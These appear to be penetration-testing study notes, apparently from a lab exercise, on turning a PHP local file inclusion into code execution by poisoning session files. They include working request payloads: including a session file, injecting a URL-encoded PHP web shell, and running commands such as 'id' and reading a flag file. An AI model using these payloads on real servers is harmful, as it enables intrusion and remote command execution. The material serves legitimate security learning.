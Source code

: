 
User sessions are stored in log files
	`/var/lib/php/sessions/` on Linux and in `C:\Windows\Temp\` on Windows

These sessions are linked to user cookies in order to track data between user request to keep an active session


E.g
	 `PHPSESSID` cookie is set to `el4ukv0kqbvoirg7nkp4dncpk3`
		 /var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3


Test to see if we can include session file(Find variables in session file we can control)
```http
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```
(If we can control a parameter then we can get a potential web shell)

Setting web shell
```http
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Executing on webshell
```http
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```
***Note: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten with `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` after our last inclusion. Ideally, we would use the poisoned web shell to write a permanent web shell to the web directory, or send a reverse shell for easier interaction.


/index.php?language=/var/lib/php/sessions/sess_7hovjsk1r0jj5dcqre3ir95aqt&cmd=cat /c85ee5082f4c723ace6c0796e3a3db09.txt

cat /c85ee5082f4c723ace6c0796e3a3db09.txt